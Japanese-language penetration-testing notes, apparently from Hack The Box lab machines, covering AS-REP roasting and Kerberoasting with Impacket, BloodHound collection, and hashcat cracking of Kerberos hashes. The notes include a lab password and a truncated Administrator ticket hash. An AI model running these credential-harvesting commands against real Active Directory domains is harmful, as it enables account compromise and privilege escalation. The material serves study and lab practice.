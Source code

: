 ## GetNPUsers.py (AS_REProast)

ASREPRoast攻撃により**Kerberos事前認証が不要**なユーザーを探索しそのパスワードハッシュの取得を狙う。

```
# specific user 
┌──(kali㉿kali)-[~]
└─$ impacket-GetNPUsers.py -no-pass -dc-ip 10.10.10.52 htb.local/mantis

# Using user list
┌──(kali㉿kali)-[~]
└─$ GetNPUsers.py htb.local/ -no-pass -dc-ip 10.10.10.161 -usersfile users.txt 
```

**krb5asrep**ハッシュのクラック：

```
┌──(kali㉿kali)-[~]
└─$ hashcat -a 0 -m 18200 hash /usr/share/wordlists/rockyou.txt
```

## Blood Hound from "LOCAL"

```
┌──(kali㉿kali)-[~]
└─$ bloodhound-python -u <domain account> -p <account's password> -ns <target's IP> -d <Domain> -c Al

(e.g.) $ loodhound-python -u svc_tgs -p GPPstillStandingStrong2k18 -ns 10.10.10.100 -d active.htb -c Al
```

## GetUserSPNs.py
指定したドメインアカウント下で動いてるSPN（Service Principal Name）を探す。

- -reqeust: TGS（サービスチケットを発行するサーバ）にリクエストを出す
- -save: TGSを保存する（<username>.ccacheのフォーマット）

```
┌──(kali㉿kali)-[~]
└─$ GetUserSPNs.py -request -dc-ip <target IP> <domain>/<user name> -save -outputfile GetUserSPNs.out

(e.g.) $ GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
```
  
(c.f. [0xdf hacks stuff](https://0xdf.gitlab.io/2018/12/08/htb-active.html#decrypting-gpp-password))

> I’ll use the GetUserSPNs.py script from Impacket to get a list of service usernames which are associated with normal user accounts. 
It will also get a ticket that I can crack. 
  
***GetUserSPNs.pyの結果Administratorのハッシュが取れた！！！***
  
```
┌──(kali㉿kali)-[~]
└─$ ls
Administrator.acache
GetUserSPNs.out
  
┌──(kali㉿kali)-[~]
└─$ cat GetUserSPNs.out
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$25bac967bc8a16...
```
  
注意）このハッシュは（**krb5tgs**）のhashcatでは「-m 13100」。ハッシュタイプ18200はAS_Repのハッシュ。

  
### GetNPUsers.pyとGetUserSPNs.pyについて
#### GetNPUsers.py -> "AS_REPRoasting"（存在するユーザ名のみでOK）
-> ASREPRoastingとは、ケルベロスチケットを要求する際にpre-authenticationを必要としないようなアカウントに対して、"Does not require Pre-Authentication"なる権限を持っている場合に起こる。

  
#### GetUserSPNs.py -> "TGS_REPRoasting"（存在するユーザ名とそのパスワード（それなりの権限が必要かも））
-> そのドメイン内のアカウントのクリデンシャルを知っていれば、それは普通にTGSに対して要求できるでしょ。で、その**TGS_REPにはSPNのハッシュが含まれている**。これをofflineでクラックすると。（Activeの場合は、AdministratorがSPNに関連してたのがセキュリティホールかな）

